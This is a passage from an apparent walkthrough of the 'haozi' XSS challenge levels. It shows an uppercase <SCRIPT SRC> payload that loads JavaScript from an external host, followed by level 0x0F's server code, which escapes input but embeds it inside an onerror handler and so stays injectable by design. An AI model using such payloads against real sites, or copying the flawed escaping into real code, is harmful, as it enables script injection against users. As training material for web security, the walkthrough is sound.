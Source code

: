 ## html:

```
1. <h1><SCRIPT SRC="HTTPS://XSS.HAOZI.ME/J.JS"></SCRIPT></h1>
```

![00E](/img/xss/haozi/00E.png)

# 0x0F

## server code:

```
function render (input) {
  function escapeHtml(s) {
    return s.replace(/&/g, '&amp;')
            .replace(/'/g, '&#39;')
            .replace(/"/g, '&quot;')
            .replace(/</g, '&lt;')
            .replace(/>/g, '&gt;')
            .replace(/\//g, '&#x2f;')
  }
  return `<img src onerror="console.error('${escapeHtml(input)}')">`
}
```
